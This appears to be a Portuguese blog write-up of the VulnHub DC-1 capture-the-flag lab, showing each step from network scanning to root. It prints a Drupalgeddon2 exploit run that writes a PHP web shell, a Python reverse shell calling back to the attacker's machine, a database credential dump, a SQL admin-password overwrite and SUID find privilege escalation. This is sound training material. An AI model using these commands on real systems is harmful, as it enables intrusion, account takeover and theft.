




← ← ← 28/03/2026, 11:10:48 | Postado por: Danilo Maia Florenzano
DC-1 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.
It was designed to be a challenge for beginners, but just how easy it is will depend on your skills and knowledge, and your ability to learn.
O laboratório pode ser configurado usando VirtualBox. A imagem para download está disponível no repositório da VulnhHub.
Para a exploração, considere uma máquina Kali Linux. Se necessário, veja Kali Linux no Docker.
netdiscover:┌──(root㉿omarchy)-[~]
└─# netdiscover -r 192.168.0.0/24
Currently scanning: Finished! | Screen View: Unique Hosts
9 Captured ARP Req/Rep packets, from 9 hosts. Total size: 522
_____________________________________________________________________________
IP At MAC Address Count Len MAC Vendor / Hostname
-----------------------------------------------------------------------------
...
...
192.168.0.119 08:00:27:ca:79:73 1 42 PCS Systemtechnik GmbH
nmap:┌──(root㉿omarchy)-[~]
└─# nmap -sV 192.168.0.119
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-28 14:30 +0000
Nmap scan report for 192.168.0.119
Host is up (0.00016s latency).
Not shown: 997 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
80/tcp open http Apache httpd 2.2.22 ((Debian))
111/tcp open rpcbind 2-4 (RPC #100000)
MAC Address: 08:00:27:CA:79:73 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
O resultado no nmap evidencia uma aplicação web na porta 80.

A aplicação web executando na porta 80 é um servidor Drupal, um CMS, assim como Wordpress. Com a extensão Wappalyzer, é possível identificar que a versão sendo executada é a 7.
searchsploit:┌──(root㉿omarchy)-[~]
└─# searchsploit drupal 7
---------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
---------------------------------------------------------------------------------------- ---------------------------------
...
...
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution | php/webapps/44449.rb
O searchsploit retorna diversos exploits, porém reduzi a lista para evidenciar o que escolhi utilizar.
mkdir dc1 && cd dc1/
searchsploit -m php/webapps/44449.rb
A execução do script abre um pseudo shell e com ele já permite a captura da primeira bandeira.
┌──(root㉿omarchy)-[/home/dc1]
└─# ruby 44449.rb http://192.168.0.119
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.0.119/
--------------------------------------------------------------------------------
[!] MISSING: http://192.168.0.119/CHANGELOG.txt (HTTP Response: 404)
[!] MISSING: http://192.168.0.119/core/CHANGELOG.txt (HTTP Response: 404)
[+] Found : http://192.168.0.119/includes/bootstrap.inc (HTTP Response: 403)
[!] MISSING: http://192.168.0.119/core/includes/bootstrap.inc (HTTP Response: 404)
[+] Found : http://192.168.0.119/includes/database.inc (HTTP Response: 403)
[+] URL : v7.x/6.x?
[+] Found : http://192.168.0.119/ (HTTP Response: 200)
[+] Metatag: v7.x/6.x [Generator]
[!] MISSING: http://192.168.0.119/ (HTTP Response: 200)
[+] Drupal?: v7.x/6.x
--------------------------------------------------------------------------------
[*] Testing: Form (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution (Method: name)
[i] Payload: echo UFANATCP
[+] Result : UFANATCP
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file (http://192.168.0.119/shell.php)
[!] Response: HTTP 200 // Size: 7. ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell: curl 'http://192.168.0.119/shell.php' -d 'c=hostname'
DC-1>> ls | grep flag
flag1.txt
DC-1>> cat flag1.txt
Every good CMS needs a config file - and so do you.
Every good CMS needs a config file - and so do you.
Uma característica do DC-1 é que as bandeiras fornecem orientações dos próximos passos.
Antes de ir atrás do arquivo de configuração, uma opção válida é melhorar o shell.
Na máquina Kali:
┌──(root㉿omarchy)-[/]
└─# nc -lvnp 4444
listening on [any] 4444 ...
Na máquina DC-1
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.9",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
O script Python executado na DC-1 eu obtive no portal GTFObins.
Ao reproduzir, é importante alterar o IP de connect pelo IP da sua máquina Kali (a minha, no momento, era 192.168.0.9).
O reverse shell será aberto na máquina Kali:
┌──(root㉿omarchy)-[/]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.9] from (UNKNOWN) [192.168.0.119] 44257
www-data@DC-1:/var/www$ ls
ls
COPYRIGHT.txt MAINTAINERS.txt includes robots.txt web.config
INSTALL.mysql.txt README.txt index.php scripts xmlrpc.php
INSTALL.pgsql.txt UPGRADE.txt install.php shell.php
INSTALL.sqlite.txt authorize.php misc sites
INSTALL.txt cron.php modules themes
LICENSE.txt flag1.txt profiles update.php
www-data@DC-1:/var/www$
No Drupal, as credenciais do banco de dados está no arquivo de configurações, que por padrão fica no diretório /var/www/sites/default.
Além das credenciais, no arquivo se encontra a segunda bandeira.
www-data@DC-1:/var/www$ cd /var/www/sites/default/
www-data@DC-1:/var/www/sites/default$ ls
ls
default.settings.php files settings.php
www-data@DC-1:/var/www/sites/default$ cat settings.php
cat settings.php
<?php
/**
*
* flag2
* Brute force and dictionary attacks aren't the
* only ways to gain access (and you WILL need access).
* What can you do with these credentials?
*
*/
$databases = array (
'default' =>
array (
'default' =>
array (
'database' => 'drupaldb',
'username' => 'dbuser',
'password' => 'R0ck3t',
'host' => 'localhost',
'port' => '',
'driver' => 'mysql',
'prefix' => '',
),
),
);
...
Brute force and dictionary attacks aren't the only ways to gain access (and you WILL need access). What can you do with these credentials?
As credenciais de usuário do Drupal ficam na tabela users.
www-data@DC-1:/var/www/sites/default$ mysql -u dbuser -pR0ck3t drupaldb
mysql> select name, pass from users;
select name, pass from users;
+-------+---------------------------------------------------------+
| name | pass |
+-------+---------------------------------------------------------+
| | |
| admin | $S$Dowp8Hu5SUTSG1FOc/zHfsdCWVgKIHnD1ZgcUYdHpC9NQtwLasEu |
| Fred | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
+-------+---------------------------------------------------------+
mysql> exit
exit
Bye
Não é possível utilizar a senha dessa forma, pois sofreu processo de hashing. O que pode ser feito é criar uma nova senha, passar ela pelo exato mesmo processo de hashing e alterar o registro no banco com o novo hash.
Tendo acesso ao servidor do Drupal, esse processo é simples. O script utilizado para fazer o processo de hashing fica no diretório /var/www/scripts/.
Dado a como o script foi desenvolvido, é necessário que seja executado do diretório /var/www/.
www-data@DC-1:/var/www/sites/default$ cd /var/www/scripts/
cd /var/www/scripts/
www-data@DC-1:/var/www/scripts$ ls
ls
code-clean.sh drupal.sh generate-d6-content.sh run-tests.sh
cron-curl.sh dump-database-d6.sh generate-d7-content.sh test.script
cron-lynx.sh dump-database-d7.sh password-hash.sh
www-data@DC-1:/var/www/scripts$ cd ..
cd ..
www-data@DC-1:/var/www$ php scripts/password-hash.sh novasenha
php scripts/password-hash.sh novasenha
password: novasenha hash: $S$D2rtDg4oSMooJimjyyNn93nXK/f5emudOSGuWPFfPMZRsKMxpuTX
Com o hash da nova senha em mãos, basta alterar o registro no banco de dados.
www-data@DC-1:/var/www$ mysql -u dbuser -pR0ck3t drupaldb
mysql -u dbuser -pR0ck3t drupaldb
mysql> UPDATE users SET pass = '$S$D2rtDg4oSMooJimjyyNn93nXK/f5emudOSGuWPFfPMZRsKMxpuTX' WHERE name = 'admin';
UPDATE users SET pass = '$S$D2rtDg4oSMooJimjyyNn93nXK/f5emu<s = '$S$D2rtDg4oSMooJimjyyNn93nXK/f5emudOSGuWPFfPMZ <Nn93nXK/f5emudOSGuWPFfPMZRsKMxpuTX' WHERE name = 'a dmin';
Query OK, 1 row affected (0.01 sec)
Rows matched: 1 Changed: 1 Warnings: 0
mysql> exit
exit
Bye
Com as credenciais alteradas, basta logar com "admin" e "novasenha".

Em http://192.168.0.119/node/2#overlay-context=node&overlay=admin/content se encontra a terceira bandeira.


Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
find:As palavras em caixa alta e o argumento -exec da terceira bandeira dá a direção.
Ao enumerar os executaveis que conseguem performar ações com permissão de super usuário (SUIDs), assim como indicado pela bandeira, find aparece na lista.
SUIDs (files & programs that have the permission of their owner -- usually root. Useful for privilege escalation)
O comando para executar essa enumeração eu consegui em Linux Enumeration Cheat Sheet.
www-data@DC-1:/var/www$ find / -perm -4000 -user root -exec ls -ld {} \; 2> /dev/null
<d / -perm -4000 -user root -exec ls -ld {} \; 2> /d ev/null
-rwsr-xr-x 1 root root 88744 Dec 10 2012 /bin/mount
-rwsr-xr-x 1 root root 31104 Apr 13 2011 /bin/ping
-rwsr-xr-x 1 root root 35200 Feb 27 2017 /bin/su
-rwsr-xr-x 1 root root 35252 Apr 13 2011 /bin/ping6
-rwsr-xr-x 1 root root 67704 Dec 10 2012 /bin/umount
-rwsr-xr-x 1 root root 35892 Feb 27 2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 45396 Feb 27 2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 30880 Feb 27 2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 44564 Feb 27 2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 66196 Feb 27 2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root mail 83912 Nov 18 2017 /usr/bin/procmail
-rwsr-xr-x 1 root root 162424 Jan 6 2012 /usr/bin/find
-rwsr-xr-x 1 root root 937564 Feb 11 2018 /usr/sbin/exim4
-rwsr-xr-x 1 root root 9660 Jun 20 2017 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 248036 Jan 27 2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5412 Mar 28 2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 321692 Feb 10 2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 84532 May 22 2013 /sbin/mount.nfs
Confirmada a presença do find na lista, basta a execução do comando para criar o shell com permissão de root.
O comando encontrei em GTFObins.
www-data@DC-1:/var/www$ find . -exec /bin/sh \; -quit
find . -exec /bin/sh \; -quit
# whoami
whoami
root
A última bandeira se encontra no diretório /root/.
# ls /root
ls /root
thefinalflag.txt
# cat /root/thefinalflag.txt
cat /root/thefinalflag.txt
Well done!!!!
Hopefully you've enjoyed this and learned some new skills.
You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
Hopefully you've enjoyed this and learned some new skills.
You can let me know what you thought of this little journey by contacting me via Twitter - @DCAU7
DC-1 foi meu primeiro CTF e tive uma experiência positiva com o laboratório. As orientações deixadas pelo autor em cada bandeira ditam o próximo passo, mas não de maneira óbvia, o que provoca a curiosidade de entender a pista e extrair dela o caminho para a próxima exploração.